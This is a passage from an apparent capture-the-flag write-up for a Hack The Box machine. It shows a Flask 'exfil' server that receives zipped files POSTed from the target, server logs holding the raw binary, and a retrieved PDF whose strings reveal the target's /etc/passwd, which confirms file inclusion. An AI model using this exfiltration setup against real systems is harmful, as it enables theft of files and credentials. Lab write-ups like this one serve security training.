 ```
Starting server on port 8000
p >VHans Holbein.pdfmR nA%F 
R  E"9   3^G    *A^ HAX   ^ 7 g  1 T 
<...snip...>
N WW $ h c  ?
VU <  |. UxUy  l K ǡo  d m^   b    /  FA!  z   , c     _O 9.!
ί ˲Kx P   "Pp >Vɚ o   Hans Holbein.pdfP   V   "'
   Unknown.pdfPKw
10.10.11.215 - - [04/Dec/2023 18:14:30] "POST / HTTP/1.1" 200 -
```
the response still same as pdf file but look like zip file to get file contain `Unknown.pdf` we'll try create a python webserver to get the pdf file.

- web.py
```
from pathlib import Path
from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods=["POST"])
def exfil():
    print("Got a file")
    data = request.get_data()
    output = Path(f'upload/upload.zip')
    output.write_bytes(data)
    return ""

if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80)
```
Don't forget create directory upload . After a few minutes i ran `web.py` and `basket.py` i got the pdf file 

Update our payload to utilize the upload form
```
┌──(root㉿kali)-[/home/…/Desktop/htb/bookworm/upload]
└─# unzip upload.zip          

Archive:  upload.zip
  inflating: Alice's Adventures in Wonderland.pdf  
  inflating: Unknown.pdf     
```

I've got the .pdf file so now let's using strings command to verify vulnerable lfi or not

```
┌──(root㉿kali)-[/home/…/Desktop/htb/bookworm/upload]
└─# strings Unknown.pdf                           
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```